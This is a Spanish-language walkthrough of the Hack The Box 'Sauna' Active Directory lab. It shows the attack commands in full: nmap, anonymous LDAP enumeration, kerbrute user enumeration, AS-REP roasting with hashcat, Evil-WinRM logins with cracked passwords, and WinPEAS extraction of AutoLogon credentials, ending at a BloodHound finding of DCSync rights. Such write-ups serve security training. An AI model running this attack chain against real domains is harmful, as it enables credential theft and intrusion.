# Sauna — Hack The Box

**Plataforma:** Hack The Box
**Dificultad:** 🟢 Fácil
**SO:** Windows (Active Directory)
**Autor de la máquina:** No confirmado en las capturas (dato de HTB no verificado con certeza)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · Enumeración LDAP anónima · Enumeración web (página de equipo) · Generación de diccionario de usuarios · `kerbrute` · **AS-REP Roasting** (`GetNPUsers`) · Hashcat (modo 18200) · Evil-WinRM · Credenciales de AutoLogon en el registro (WinPEAS) · BloodHound · **DCSync** (`secretsdump`) · Pass-the-hash con `psexec` → SYSTEM

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración](#2-enumeración)
3. [Acceso inicial — AS-REP Roasting](#3-acceso-inicial--as-rep-roasting)
4. [Obtención de shell](#4-obtención-de-shell)
   - [Escalada de privilegios](#escalada-de-privilegios)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

```bash
ping -c 1 10.129.95.180
```



Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.95.180
```



```bash
enum-nmap AllPorts
```



> 💡 20 puertos abiertos, entre ellos **53, 88, 389, 445, 464, 636, 3268, 3269, 5985 y 9389** — el conjunto clásico de un **controlador de dominio de Active Directory**, además del puerto 80 con un sitio web.

Escaneo de versión y scripts por defecto:

```bash
nmap -sS -Pn -sCV -T5 -n -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49677,49678,49679,49700,49719 -oN Ports 10.129.95.180
```



```
80/tcp  open  http  Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
389/tcp open  ldap  Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL, ...)
Service Info: Host: SAUNA; OS: Windows
```

> 💡 Dominio **`EGOTISTICAL-BANK.LOCAL`**, host **`SAUNA`**. El puerto 80 aloja el sitio web corporativo "Egotistical Bank".

## 2. Enumeración

### LDAP anónimo

```bash
ldapsearch -x -H ldap://10.129.95.180 -s base namingcontexts
```



```bash
ldapsearch -x -H ldap://10.129.95.180 -b "DC=EGOTISTICAL-BANK,DC=LOCAL"
```



Entre los resultados de la enumeración anónima aparece un usuario:



```
CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
```

Con ese nombre, generamos un diccionario con los formatos de nombre de usuario más comunes en Active Directory:



```
hugosmith
hsmith
h.smith
shugo
smith
hugo.smith
```

Validamos cuál de esos formatos existe realmente en el dominio:

```bash
kerbrute userenum --dc 10.129.95.180 --domain EGOTISTICAL-BANK.LOCAL users.txt
```



```
[+] VALID USERNAME: hsmith@EGOTISTICAL-BANK.LOCAL
```

### Enumeración web

Exploramos el sitio web del puerto 80:



La página `about.html` muestra al equipo de la empresa, con nombres completos adicionales:



```
Fergus Smith, Shaun Coins, Hugo Bear, Bowie Taylor, Sophie Driver, Steven Kerb
```

Con el mismo formato de nombre de usuario ya confirmado (inicial + apellido), ampliamos el diccionario:



```
hsmith
fsmith
hbear
skerb
btylor
scoins
sdriver
```

```bash
kerbrute userenum --dc 10.129.95.180 --domain EGOTISTICAL-BANK.LOCAL users.txt
```



```
[+] VALID USERNAME: hsmith@EGOTISTICAL-BANK.LOCAL
[+] VALID USERNAME: fsmith@EGOTISTICAL-BANK.LOCAL
```

## 3. Acceso inicial — AS-REP Roasting

Con dos usuarios válidos confirmados, comprobamos si alguno tiene la preautenticación Kerberos deshabilitada:

```bash
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile users.txt
```



```
[-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:671f53f5ab673ece...
```

`fsmith` sí tiene la preautenticación deshabilitada, lo que permite obtener su hash AS-REP sin credenciales previas. Identificamos el modo de hashcat correspondiente:

```bash
hashcat --example-hashes | grep krb5asrep -B 15
```



```bash
hashcat -m 18200 -a 0 hash /usr/share/wordlists/rockyou.txt
```




```
fsmith:Thestrokes23
```

## 4. Obtención de shell

```bash
evil-winrm -u 'fsmith' -p 'Thestrokes23' -i 10.129.95.180
```



```
dir ../Desktop
```



`user.txt` (34 bytes) confirmado en el escritorio de `FSmith` — primera flag.

```
whoami /all
```



Comprobamos quién más tiene acceso remoto a la máquina:

```
net localgroup "Remote Management Users"
```



```
FSmith
svc_loanmgr
```

### Escalada de privilegios

Subimos WinPEAS para automatizar la búsqueda de vectores de escalada:

```bash
locate winPEASx64.exe
```



```
upload /usr/share/peass/winpeas/winPEASx64.exe
```



```
./winPEASx64.exe
```



Entre los hallazgos, WinPEAS detecta credenciales de **AutoLogon** guardadas en el registro:



```
DefaultDomainName : EGOTISTICALBANK
DefaultUserName   : EGOTISTICALBANK\svc_loanmanager
DefaultPassword   : Moneymakestheworldgoround!
```

> 💡 El AutoLogon de Windows guarda las credenciales en texto plano en el registro (`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`) para iniciar sesión automáticamente sin pedir contraseña — cualquiera con acceso de lectura a ese registro puede extraerlas.

Con esas credenciales (cuenta `svc_loanmgr`, miembro también de `Remote Management Users`):

```bash
evil-winrm -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!' -i 10.129.95.180
```



Enumeramos el dominio con BloodHound para buscar rutas de escalada:

```bash
bloodhound-python -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!' -d EGOTISTICAL-BANK.LOCAL -ns 10.129.95.180 -c All --zip
```





El grafo revela que `svc_loanmgr` tiene los derechos **`GetChangesAll`** y **`GetChanges`** sobre el propio dominio:


